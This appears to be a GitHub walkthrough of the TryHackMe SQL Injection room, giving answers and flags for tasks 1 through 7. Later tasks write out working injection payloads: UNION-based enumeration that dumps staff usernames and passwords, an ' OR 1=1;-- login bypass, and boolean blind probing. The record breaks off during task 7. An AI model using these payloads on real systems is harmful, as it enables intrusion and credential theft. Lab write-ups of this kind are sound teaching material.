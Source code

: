 <h1 align='center'>:fire: TryHackMe SQL Injection room :fire: </h1>

![show image](images/1-show.png)<br/>
[SQL Injection Room](https://tryhackme.com/room/sqlinjectionlm)


## Task 1: Breif
### Q: What does SQL stand for?
![what does](images/2-what-does.png)<br/>
#### A: `Structured Query Language` :heavy_check_mark:<br/>

## Task 2: What is database?
### Q: What is the acronym for the software that controls a database?
![dbms](images/3.png)<br/>
#### A: `DBMS` :heavy_check_mark:<br/>

### Q: What is the name of the grid-like structure which holds the data?
![table](images/4-table.png)<br/>
#### A: `table` :heavy_check_mark:<br/>

## Task 3: What is SQL?
### Q: What SQL statement is used to retrieve data?
![select](images/5-select.png)<br/>
#### A: `SELECT` :heavy_check_mark:<br/>

### Q: What SQL clause can be used to retrieve data from multiple tables?
![union](images/6-union.png)<br/>
#### A: `UNION` :heavy_check_mark:<br/>

### Q: What SQL statement is used to add data?
![insert](images/7-insert.png)<br/>
#### A: `INSERT` :heavy_check_mark:<br/>

## Task 4: What is SQL Injection?
### Q: What character signifies the end of an SQL query?
![semicolon](images/8-semicolon.png)<br/>
#### A: `;` :heavy_check_mark:<br/>

## Task 5: In-Band SQLi
### Q: What is the flag after completing level 1?
    '
![apostrophe](images/9-apostrophe.png)<br/>
Try typing an apostrophe `'` after the `id=1` and press enter. And you'll see this returns an SQL error informing you of an error in your syntax.<br/>

    1 UNION SELECT 1,2,3
![error solved](images/10-error-solved.png)<br/>
Success,  the error message has gone, and the article is being displayed, but now  we want to display our data instead of the article.<br/>

Now change value `1` to `0` before UNION

    0 UNION SELECT 1,2,3
![change value](images/11-change-value.png)<br/>
You'll now see the article is just made up of the result from the UNION select returning the column values `1, 2, and 3`<br/>

    0 UNION SELECT 1,2,database()
![datanase](images/12-database.png)<br/>
It now shows the name of the database, which is `sqli_one`.<br/>

    0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
![tables name](images/13-get-tables-name.png)<br/>
The information we want to retrieve has changed from table_name to `column_name`, the table we are querying in the information_schema database has changed from tables to `columns`, and we're searching for any rows where the `table_name` column has a value of `staff_users`.<br/>

    0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
![columns](images/14-all-columns.png)<br/>
We get all the columns name of `stuff_users` table

    0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
![password](images/15-password.png)<br/>
#### A: `THM{SQL_INJECTION_3840}` :heavy_check_mark:<br/>

## Task 6: Blind SQLi - Authentication Bypass
### Q: What is the flag after completing level two? (and moving to level 3)
    username anything and password field ' OR 1=1;--
![sqli in password](images/16-sqli-in-pwd.png)<br/>
![next button](images/17-click-next.png)<br/>
#### A: `THM{SQL_INJECTION_9581}` :heavy_check_mark:<br/>


## Task 7: Blind SQLi - Boolean Based
### Q: What is the flag after completing level three?
    admin123' UNION SELECT 1;-- 
![incorrent column](images/18-incorrect-column.png)<br/>
As the web application has responded with the value taken as false, we can confirm this is the incorrect value of columns.<br/>

    admin123' UNION SELECT 1,2,3;-- 
![Column error fixed](images/19-column-error-fixed.png)<br/>
Now that our number of columns has been established, we can work on the  enumeration of the database.<br/>

    admin123' UNION SELECT 1,2,3 where database() like 's%';-- 
![Get db name](images/20-get-database-name.png)<br/>
After many tryed i've found full database name, which is `sqli_three`<br/>

Now we need to enumerate `table names` using a similar method.
    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
![table name](images/21-table-name.png)<br/>

    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
![full table name](images/22-full-table-name.png)<br/>
After many tryed i've found full table name, which is `users`<br/>